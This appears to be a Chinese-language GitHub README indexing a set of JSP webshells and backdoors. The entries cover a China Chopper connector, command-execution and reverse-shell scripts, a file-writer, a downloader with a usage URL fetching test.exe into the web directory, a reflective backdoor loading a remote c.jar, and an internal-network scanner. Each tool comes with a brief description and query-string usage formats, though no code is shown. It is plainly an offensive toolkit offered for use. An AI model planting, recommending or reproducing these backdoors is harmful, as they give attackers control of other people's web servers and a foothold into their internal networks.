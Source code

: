 # JSP常用脚本
##

chopper.jsp
菜刀连接脚本

cmd.jsp
无回显执行命令（弹shell）

cmdpass.jsp
回显带密码执行命令

file.jsp
写文件脚本，格式：file.jsp?f=test.jsp&t=test

down.jsp
下载文件到网站目录，格式：down.jsp?u=http://test.com/test.exe


reflect.jsp
反射后门，配合c.jar使用，格式：reflect.jsp?u=http://test.com/c.jar pass=023 (form:yzmm)


c.jar
其实代码和chopper差不多，可自行使用JDGUI查看

netspy.jsp
内网探测脚本2.0（form:jeary-[zone](http://zone.wooyun.org/content/23517)）

